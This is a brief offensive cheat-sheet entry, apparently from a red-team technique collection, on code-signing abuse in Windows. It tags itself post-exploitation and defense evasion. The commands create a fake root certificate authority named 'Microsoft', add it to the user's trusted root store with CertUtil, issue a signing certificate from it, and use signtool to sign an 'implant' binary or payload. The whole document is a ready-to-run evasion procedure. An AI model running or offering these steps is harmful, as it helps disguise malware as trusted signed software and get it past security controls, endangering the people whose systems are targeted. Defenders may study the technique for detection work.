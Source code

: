 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - living-off-the-land
  - T1553-002
  - windows
---
```

# Sysinternals

Generate a authority certificate then add it with `CertUtil.exe`.

```
C:\> makecert.exe -r -pe -n "CN=Microsoft" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv MicrosoftCA.pvk MicrosoftCA.cer

C:\> CertUtil.exe -user -addstore Root MicrosoftCA.cer
```

```
C:\> makecert.exe -pe -n "CN=Microsoft Cert" -a sha256 -cy end -sky signature -ic MicrosoftCA.cer -iv MicrosoftCA.pvk -sv MicrosoftCert.pvk MicrosoftCert.cer

C:\> pvk2pfx.exe -pvk MicrosoftCert.pvk -spc MicrosoftCert.cer -pfx MicrosoftCert.pfx
```

Sign the binary implant with a certificate.

```
C:\> signtool.exe sign /v /f MicrosoftCert.pfx /t http://timestamp.digicert.com/?alg=sha1 implant.exe

C:\> signtool.exe sign /fd sha256 /a /tr http://timestamp.digicert.com <payload_name>
```

---
## References

- [LazySign](https://github.com/jfmaes/LazySign)